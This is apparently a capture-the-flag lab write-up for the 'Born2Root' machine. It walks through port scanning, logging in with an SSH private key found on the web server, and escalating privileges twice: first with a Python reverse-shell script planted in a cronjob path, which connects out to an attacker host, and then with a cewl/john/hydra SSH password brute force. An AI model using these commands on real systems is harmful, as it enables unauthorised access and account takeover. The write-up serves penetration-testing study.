

# Born2Root

**IP Address:** 192.168.59.49

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0) |
| 80 | http | Apache httpd 2.4.10 ((Debian)) |
| 111 | rpcbind | 2-4 (RPC #100000) |

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A private key can be found at http://192.168.59.49/icons/VDSoyuAXiO.txt in the icons directory on the website. After enumerating the website we have 3 potential users (Martin N, Hadi M, Jimmy S). We find that the private key works with the user martin. 

Commands
```
curl http://192.168.59.49/icons/VDSoyuAXiO.txt -o id_rsa
chmod 600 id_rsa
ssh martin@$ip -i id_rsa
password
whoami
cat local.txt
```


## Privilege Escalation #1 (Jimmy)
### Exploit Details (Cronjob)
* **Name** - Cronjob
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A regular cronjob is run as the jimmy user account, however the file it calls does not exist. We can simply create the file as we like. 
/tmp/sekurity.py

Commands
```bash
nano /tmp/sekurity.py
```


Shell
```
#!/usr/bin/python                                      
import socket,subprocess,os                        
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)           
s.connect(("192.168.49.59",53))                   
os.dup2(s.fileno(),0)                              
os.dup2(s.fileno(),1)                              
os.dup2(s.fileno(),2)                              
p=subprocess.call(["/bin/sh","-i"])
```


Commands
```
whoami
```


## Privilege Escalation #2 (Hadi)
### Exploit Details (Cronjob)
* **Name** - Cronjob
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Creating a custom wordlist we can bruteforce the hadi account. First we need to create a custom wordlist using cewl. Then add the lowercase user name to the wordlist. Then we use john to create a mutated wordlist. 

Commands
```
cewl -w wordlist.txt http://$ip
echo 'hadi' > wordlist.txt
john --wordlist=wordlist.txt --rules --stdout > wordlist-mutated.txt
hydra $ip -s 22 ssh -l hadi -P wordlist-mutated.txt -F
```


```Commands
ssh hadi@$ip
hadi123
whoami
su
hadi123
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
bdf19827ad9d964d921f03c419091e30
proof.txt
788caa6da67000ed09135533dd998f53
```